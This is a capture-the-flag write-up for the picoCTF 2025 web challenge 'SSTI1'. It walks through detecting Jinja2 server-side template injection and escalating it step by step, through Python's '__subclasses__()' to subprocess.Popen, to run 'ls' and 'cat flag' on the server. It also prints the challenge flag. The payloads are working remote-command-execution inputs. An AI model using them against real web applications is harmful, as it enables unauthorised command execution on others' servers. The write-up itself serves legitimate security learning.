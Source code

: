 # :briefcase: SSTI1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Venax`
- **Date**: `18/05/2025

---

# :pencil: Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

---

# :hammer_and_wrench: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try enter some announce `>` We have this

    ![image2]{images/image2.png)

3. Back to previous page `>` We will try enter the following characters in turn `${{<%[%'"}}%` until we get an error `>` We have this after enter `${{`

    ![image3](images/image3.png)

4. Now we will continue entering `${{7\*7}}` and `${{7\*'7'}}` `>` We have this

    ![image4](images/image4.png)
    ![image5](images/image5.png)

    This proves that we can use Jinja2 to do it.

5. Enter the following segments one by one to find what we need.

    `{{''.__class__}}`

    ![image6](images/image6.png)

    `{{''.__class__.__mro__}}`

    ![image7](images/image7.png)

    `{{''.__class__.__mro__[1]}}`
    
    ![image8](images/image8.png)

    `{{''.__class__.__mro__[1].__subclasses__()}}`

    ![image9](images/image9.png)

    Now we need to find the location of the class `subprocess.Popen` `>` Save all classes into a file `>` Use the following commands.

   `tr \, \\n < classes.txt > classes2.txt`

    `awk '{print NR $s}' classes2.txt | grep 'subprocess.Popen'`
    
    ![image10](images/image10.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]}}`

    *Note: We input 356 because __subclasses__() returns an array, and the awk command counts from 1*

    ![image11](images/image11.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("ls", shell=True, stdout=-1).communicate()}}`

    ![image12](images/image12.png)

    `{{''.__class__.__mro__[1].__subclasses__()[356]("cat flag", shell=True, stdout=-1).communicate()}}`

    ![image13](images/image13.png)

---

# :white_flag: Flag

> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}

---

# :writing_hand: Notes

1. `__subclasses__()` is a built-in method of `object` that lists all its direct and indirect subclasses.
2. `__mro__` is a tuple that shows the method resolution order of a class.
3. `subprocess` in Python allows executing system commands.

---

# :books: Resources

1. [TryHackMe | SSTI](https://tryhackme.com/room/learnssti)
2. [subprocess — Subprocess management &#8212; Python 3.13.3 documentation](https://docs.python.org/3/library/subprocess.html)

